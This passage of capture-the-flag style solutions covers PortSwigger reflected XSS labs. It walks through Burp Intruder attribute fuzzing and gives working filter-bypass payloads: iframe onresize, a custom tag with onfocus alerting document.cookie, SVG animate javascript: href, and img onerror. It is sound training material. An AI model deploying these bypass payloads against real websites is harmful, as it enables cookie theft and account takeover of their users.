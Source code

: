 ```<script>alert(document.domain)</script>```
    ```<body%20=1>```
10. Place the cursor before the = character and click "Add §" twice, to create a payload position. The value of the search term should now look like: ```<body%20§§=1>```
11. Visit the XSS cheat sheet and click "copy events to clipboard".
12. In Burp Intruder, in the Payloads tab, click "Clear" to remove the previous payloads. Then click "Paste" to paste the list of attributes into the payloads list. Click "Start attack".
13. When the attack is finished, review the results. Note that all payloads caused an HTTP 400 response, except for the onresize payload, which caused a 200 response.
14. Go to the exploit server and paste the following code, replacing YOUR-LAB-ID with your lab ID:
    ```<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>```
15. Click "Store" and "Deliver exploit to victim".

### Reflected XSS into HTML context with all tags blocked except custom ones

This lab blocks all HTML tags except custom ones.

To solve the lab, perform a cross-site scripting attack that injects a custom tag and automatically alerts *document.cookie*.

**Solution:**
1. Go to the exploit server and paste the following code, replacing *YOUR-LAB-ID* with your lab ID:
    ```
    <script>
    location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
    </script>
    ```
2. Click "Store" and "Deliver exploit to victim".
This injection creates a custom tag with the ID *x*, which contains an *onfocus* event handler that triggers the *alert* function. The hash at the end of the URL focuses on this element as soon as the page is loaded, causing the *alert* payload to be called.

### Reflected XSS with event handlers and href attributes blocked

This lab contains a reflected XSS vulnerability with some whitelisted tags, but all events and anchor *href* attributes are blocked..

To solve the lab, perform a cross-site scripting attack that injects a vector that, when clicked, calls the *alert* function.

Note that you need to label your vector with the word "Click" in order to induce the simulated lab user to click your vector. For example:

```<a href="">Click me</a>```

**Solution:**

Visit the following URL, replacing YOUR-LAB-ID with your lab ID:

```https://YOUR-LAB-ID.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E```

### Reflected XSS with some SVG markup allowed

This lab has a simple reflected XSS vulnerability. The site is blocking common tags but misses some SVG tags and events.

To solve the lab, perform a cross-site scripting attack that calls the *alert()* function.

**Solution:**
1. Inject a standard XSS payload, such as:
    ```<img src=1 onerror=alert(1)>```
```